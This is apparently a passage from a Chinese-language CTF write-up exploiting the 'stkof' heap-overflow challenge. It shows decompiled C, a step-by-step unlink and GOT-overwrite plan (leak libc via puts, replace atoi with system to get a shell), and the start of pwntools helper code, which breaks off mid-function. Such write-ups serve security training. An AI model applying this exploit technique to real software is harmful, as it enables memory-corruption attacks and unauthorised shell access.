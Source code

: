 很显然存在堆溢出



alloc函数

```c
signed __int64 alloc()
{
  __int64 size; // [rsp+0h] [rbp-80h]
  char *v2; // [rsp+8h] [rbp-78h]
  char s; // [rsp+10h] [rbp-70h]
  unsigned __int64 v4; // [rsp+78h] [rbp-8h]

  v4 = __readfsqword(0x28u);
  fgets(&s, 16, stdin);
  size = atoll(&s);
  v2 = (char *)malloc(size);
  if ( !v2 )
    return 0xFFFFFFFFLL;
  globals[++cnt] = v2;
  printf("%d\n", (unsigned int)cnt, size);
  return 0LL;
}
```



可以看出是先申请一个堆,然后把堆的地址存在全局变量globals里面



## 基本思路

首先程序没有system等,我们需要自己leak出offset配合libc找出system地址

* 伪造堆,unlink 将globals[2]改为&globals[2]-0x18

* 通过edit 将globals[1]改为free@got,globals[2]改为puts@got,globals[3]改为atoi@got

* 通过edit,将free@got改为puts@plt,这样在下一次free的时候,就可以执行puts来leak了

* 将atoi@got改为system_addr,利用main函数中的atoi来获取shell


## 代码分析

1. 各功能模拟

   ```python
   s = process("./stkof")
   libc = ELF("./libc.so.6")
   elf = ELF("./stkof")
   
   def alloc(size):
       s.sendline("1")
       s.sendline(str(size))
       s.recvuntil("OK\n")
       log.success("Have Malloc A Heap With:"+hex(size))
   
   def free(idx):
       s.sendline("3")
       s.sendline(str(idx))
       # s.recvuntil("OK\n")
       log.success("Have Free Heap:"+str(idx))
   
   def edit(idx,size,payload):
       s.sendline("2")
       s.sendline(str(idx))
       s.sendline(str(size))
   ```